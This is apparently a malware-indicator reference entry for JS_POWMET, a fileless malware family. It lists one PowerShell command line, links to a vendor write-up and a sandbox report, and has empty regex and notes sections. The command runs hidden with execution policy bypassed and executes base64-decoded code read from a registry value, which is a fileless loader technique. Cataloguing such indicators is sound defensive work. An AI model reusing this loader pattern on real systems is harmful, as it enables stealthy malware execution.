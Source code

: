 ## JS_POWMET


#### Commands
---

* Powershell.exe

1.

```
-WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\FTZLZTRLAPJCLE').ZRAKUTR)));
```


#### Regular Expressions
---


#### Resources
---

Technical write-ups:
* https://blog.trendmicro.com/trendlabs-security-intelligence/look-js_powmet-completely-fileless-malware/

Sandbox reports:
* https://www.hybrid-analysis.com/sample/bff21cbf95da5f3149c67f2c0f2576a6de44fa9d0cb093259c9a5db919599940?environmentId=100

Notes:



 
